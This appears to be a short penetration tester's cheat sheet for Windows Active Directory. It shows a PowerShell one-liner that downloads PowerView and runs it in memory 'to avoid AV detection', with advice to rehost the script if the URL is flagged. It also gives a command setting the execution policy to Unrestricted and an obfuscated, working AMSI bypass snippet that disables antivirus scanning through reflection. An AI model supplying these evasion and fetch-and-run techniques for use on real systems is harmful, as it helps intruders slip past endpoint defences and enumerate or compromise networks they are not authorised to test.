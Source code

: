 # Updates:

| date | name | description | comment | link |
| --- | --- | --- | --- | --- |
| 07/2020 | PowerView | Different tools for enumaration in Active Directory | Active Directory | [PowerView](#powerview) |
| 09/2020 | AMSI bypass | Technique to bypass Antivirus check when executing powershell scripts | AMSI bypass | [AMSI bypass](#amsi-bypass) |


# PowerView

## Using PowerView: 

cheatsheet: https://book.hacktricks.xyz/windows/basic-powershell-for-pentesters/powerview

## Load into memory from remote (to avoid AV detection):

> iex ((New-Object System.Net.WebClient).DownloadString('https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1"))```
  
**NOTE:** if AV detects the URL, then just host it somewhere on your own
**NOTE:** If execution is forbidden in powershell use this:
```powershell
    Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Unrestricted
```
    
## Use something like this syntax:

> Get-NetUser -Filter "(title=Test Developer Junior)" | select name,samaccountname,title,manager

## Avoiding Antivirus:

In case AV prevents executing PowerShell scripts, try to bypass AMSI (https://www.youtube.com/watch?v=yHstFvLwDYM)

---

# AMSI bypass

To check if AMSI is active, type **"amsiutils"** (along with quotes) into the powershell prompt. If it is active, you will see a warning; otherwise, you'll see that word printed out. That way you can check if AMSI bypass was successful.

AV will be triggered by the word **amsiutils**, so it has to be obfuscated in some way. Here is one of the possible solutions:

```powershell
$r =[Ref].Assembly.GetType('System.Management.Automation.Amsi'+'Utils')
$o="4456625220575263174452554847"
$c =[string](0..13|%{[char][int](53+($o).substring(($_*2),2))})-replace " "
$k =$r.GetField($c,'NonPublic,Static')
$k.SetValue($null,$true)
```

---
